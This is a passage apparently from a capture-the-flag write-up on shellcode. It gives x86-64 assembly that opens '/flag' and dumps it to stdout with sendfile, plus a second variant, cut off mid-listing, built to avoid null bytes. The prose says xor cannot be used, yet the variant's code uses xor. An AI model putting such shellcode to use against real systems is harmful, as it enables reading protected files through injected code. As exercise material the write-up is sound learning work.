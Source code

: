 ```
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  pushq $2
  popq %rax
  pushq $0x1337025
  popq %rdi
  pushq $0
  popq %rsi
  pushq $0
  popq %rdx
  syscall
  
  pushq %rax
  popq %rsi
  pushq $40
  popq %rax
  pushq $1
  popq %rdi
  pushq $0
  popq %rdx
  pushq $1000
  popq %r10
  syscall

flag: .asciz "/flag"
```

#### 4 
This time, we can't use the 0x00 byte in our shellcode. Thankfully, we don't have to. We can't use `xor` to zero registers and some other tricks. Here is the assembly solution for that:

```assembly
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  pushq $2
  popq %rax
  pushq $0x1337026
  popq %rdi
  xor %rsi, %rsi
  xor %rdx, %rdx
  syscall
  
  pushq %rax
  popq %rsi
```